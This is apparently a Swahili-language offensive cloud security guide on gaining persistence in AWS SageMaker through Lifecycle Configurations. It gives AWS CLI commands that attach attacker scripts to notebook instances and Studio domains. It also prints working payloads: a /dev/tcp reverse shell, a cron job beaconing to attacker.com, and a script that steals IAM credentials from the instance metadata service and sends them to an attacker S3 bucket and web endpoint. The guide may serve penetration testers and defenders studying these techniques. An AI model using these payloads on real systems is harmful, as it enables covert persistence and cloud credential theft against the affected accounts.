 # AWS - SageMaker Lifecycle Configuration Persistence

## Overview of Persistence Techniques

Sehemu hii inaelezea mbinu za kupata kudumu katika SageMaker kwa kutumia Lifecycle Configurations (LCCs), ikiwa ni pamoja na reverse shells, cron jobs, wizi wa akreditivu kupitia IMDS, na SSH backdoors. Skripti hizi zinafanya kazi na jukumu la IAM la mfano na zinaweza kudumu hata baada ya kuanzishwa upya. Mbinu nyingi zinahitaji ufikiaji wa mtandao wa nje, lakini matumizi ya huduma kwenye AWS control plane bado yanaweza kuruhusu mafanikio ikiwa mazingira yako katika hali ya 'VPC-only'.
#### Note: SageMaker notebook instances ni kimsingi EC2 instances zinazodhibitiwa ambazo zimewekwa maalum kwa ajili ya kazi za kujifunza mashine.

## Required Permissions
* Notebook Instances:
```
sagemaker:CreateNotebookInstanceLifecycleConfig
sagemaker:UpdateNotebookInstanceLifecycleConfig
sagemaker:CreateNotebookInstance
sagemaker:UpdateNotebookInstance
```
* Maombi ya Studio:
```
sagemaker:CreateStudioLifecycleConfig
sagemaker:UpdateStudioLifecycleConfig
sagemaker:UpdateUserProfile
sagemaker:UpdateSpace
sagemaker:UpdateDomain
```
## Weka Mzunguko wa Maisha kwenye Mifano ya Notebook

### Mfano wa Amri za AWS CLI:
```bash
# Create Lifecycle Configuration*

aws sagemaker create-notebook-instance-lifecycle-config \
--notebook-instance-lifecycle-config-name attacker-lcc \
--on-start Content=$(base64 -w0 reverse_shell.sh)


# Attach Lifecycle Configuration to Notebook Instance*

aws sagemaker update-notebook-instance \
--notebook-instance-name victim-instance \
--lifecycle-config-name attacker-lcc
```
## Weka Mipangilio ya Mzunguko kwenye SageMaker Studio

Mipangilio ya Mzunguko inaweza kuunganishwa katika viwango mbalimbali na kwa aina tofauti za programu ndani ya SageMaker Studio.

### Kiwango cha Kikoa cha Studio (Watumiaji Wote)
```bash
# Create Studio Lifecycle Configuration*

aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-studio-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)


# Apply LCC to entire Studio Domain*

aws sagemaker update-domain --domain-id <DOMAIN_ID> --default-user-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
### Kiwango cha Studio Space (Nafasi Binafsi au Zilizoshirikiwa)
```bash
# Update SageMaker Studio Space to attach LCC*

aws sagemaker update-space --domain-id <DOMAIN_ID> --space-name <SPACE_NAME> --space-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
## Aina za Mipangilio ya Mzunguko wa Maombi ya Studio

Mipangilio ya mzunguko inaweza kutumika kwa aina tofauti za maombi ya SageMaker Studio:
* JupyterServer: Inatekeleza skripti wakati wa kuanzishwa kwa seva ya Jupyter, bora kwa mitambo ya kudumu kama vile reverse shells na cron jobs.
* KernelGateway: Inatekeleza wakati wa uzinduzi wa programu ya kernel gateway, muhimu kwa usanidi wa awali au ufikiaji wa kudumu.
* CodeEditor: Inatumika kwa Mhariri wa Kode (Code-OSS), ikiruhusu skripti zinazotekelezwa wakati wa kuanza kwa vikao vya uhariri wa kode.

### Amri ya Mfano kwa Kila Aina:

### JupyterServer
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-jupyter-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)
```
### KernelGateway
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-kernelgateway-lcc \
--studio-lifecycle-config-app-type KernelGateway \
--studio-lifecycle-config-content $(base64 -w0 kernel_persist.sh)
```
### CodeEditor
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-codeeditor-lcc \
--studio-lifecycle-config-app-type CodeEditor \
--studio-lifecycle-config-content $(base64 -w0 editor_persist.sh)
```
### Taarifa Muhimu:
* Kuunganisha LCCs kwenye kiwango cha domain au nafasi kunaathiri watumiaji au programu zote ndani ya upeo.
* Inahitaji ruhusa za juu (sagemaker:UpdateDomain, sagemaker:UpdateSpace) ambazo kwa kawaida ni rahisi zaidi kwenye kiwango cha nafasi kuliko kiwango cha domain.
* Udhibiti wa kiwango cha mtandao (kwa mfano, uchujaji mkali wa kutoka) unaweza kuzuia shells za nyuma zinazofanikiwa au uhamishaji wa data.

## Shell ya Nyuma kupitia Mipangilio ya Mzunguko

Mipangilio ya Mzunguko ya SageMaker (LCCs) inatekeleza skripti maalum wakati mifano ya notebook inaanza. Mshambuliaji mwenye ruhusa anaweza kuanzisha shell ya nyuma inayodumu. 

### Mfano wa Payload:
```
#!/bin/bash
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```
## Cron Job Persistence via Lifecycle Configuration

Mshambuliaji anaweza kuingiza kazi za cron kupitia scripts za LCC, kuhakikisha utekelezaji wa mara kwa mara wa scripts au amri za uhalifu, na kuwezesha kudumu kwa siri.

### Payload Example:
```
#!/bin/bash
PAYLOAD_PATH="/home/ec2-user/SageMaker/.local_tasks/persist.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_PATH"
CRON_JOB="*/30 * * * * $CRON_CMD"

mkdir -p /home/ec2-user/SageMaker/.local_tasks
echo 'import os; os.system("curl -X POST http://attacker.com/beacon")' > $PAYLOAD_PATH
chmod +x $PAYLOAD_PATH

(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user -
```
## Uhamasishaji wa Akida kupitia IMDS (v1 & v2)

Mikakati ya mzunguko inaweza kuuliza Huduma ya Metadata ya Kifaa (IMDS) ili kupata akida za IAM na kuhamasisha hizo kwenye eneo linalodhibitiwa na mshambuliaji.

### Mfano wa Payload:
```bash
#!/bin/bash
ATTACKER_BUCKET="s3://attacker-controlled-bucket"
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME > /tmp/creds.json

# Exfiltrate via S3*

aws s3 cp /tmp/creds.json $ATTACKER_BUCKET/$(hostname)-creds.json

# Alternatively, exfiltrate via HTTP POST*

curl -X POST -F "file=@/tmp/creds.json" http://attacker.com/upload
```

